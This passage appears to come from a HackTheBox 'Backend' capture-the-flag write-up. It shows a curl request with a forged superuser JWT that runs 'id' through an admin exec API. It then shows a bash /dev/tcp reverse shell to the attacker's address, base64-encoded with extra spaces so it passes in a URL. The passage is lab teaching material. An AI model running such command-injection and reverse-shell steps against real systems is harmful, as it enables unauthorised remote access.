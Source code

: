 ![Backend](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/backend/e4d44e96449141ce9c0c8abd80c03d88.png)

Copy-paste that token and let's run our `id` command again
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X GET http://10.10.11.161/api/v1/admin/exec/id -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjoidHJ1ZSIsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.PKQzWOcfezwMeLYrNa01u391xYQ7kAeY9E7fknnfPDQ"
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)" 
```

Let's get a shell by base64 encoding a basic reverse shell. (we have to base64 encode to escape the "/" on the endpoint). I learned that we need an alphanumeric payload for this to work. In the first example, we have `+` and `=` in our payload and this will break in the url. So just add an extra space or two in the string

```
┌──(kali㉿kali)-[~/htb]
└─$ echo -n "bash -i >& /dev/tcp/10.10.14.2/4242 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQyNDIgMD4mMQ==

┌──(kali㉿kali)-[~/htb]
└─$ echo -n 'bash  -i  >&  /dev/tcp/10.10.14.2/4242   0>&1   ' | base64
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4yLzQyNDIgICAwPiYxICAg
```

Then URL encode the payload and send it! I encoded it in burp
